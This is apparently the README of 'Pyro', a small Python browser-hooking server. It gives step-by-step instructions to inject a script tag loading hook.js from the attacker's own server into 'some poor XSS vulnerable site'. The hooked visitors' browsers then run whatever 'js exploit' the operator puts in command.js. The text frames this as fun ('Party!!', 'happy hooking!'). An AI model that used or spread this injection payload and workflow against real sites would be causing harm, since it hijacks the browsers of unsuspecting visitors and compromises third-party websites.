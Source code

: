Pyro -- A simple browser hooking server in python

Pyro was designed to be the simplest possible hooking server
to serve as a demonstation and a starting point for more serious
developement.

To start using Pyro you require no external packages! Most modern
python installations should work fine!

To run:
	./SimpleServer.py
	
You may want to edit the 'command.js' as it will not work until it has
a different md5 hash from when the server started.
So 

Step 1)
	./SimpleServer.py
Step 2)
	inject '<script src='http://yourserver.domain:port/hook.js'></script>
into some poor XSS vulnerable site, and have it run in a browser
Step 3)
while the client asks for commands
	edit command.js with your favourite js exploit
Step 4)
	Party!!

Make sure that the hook.js and command.js is in the same path as Pyro.py
and if you'd like to use the hooktest.js make sure to place it there too.

Enjoy! and happy hooking!
k3170makan
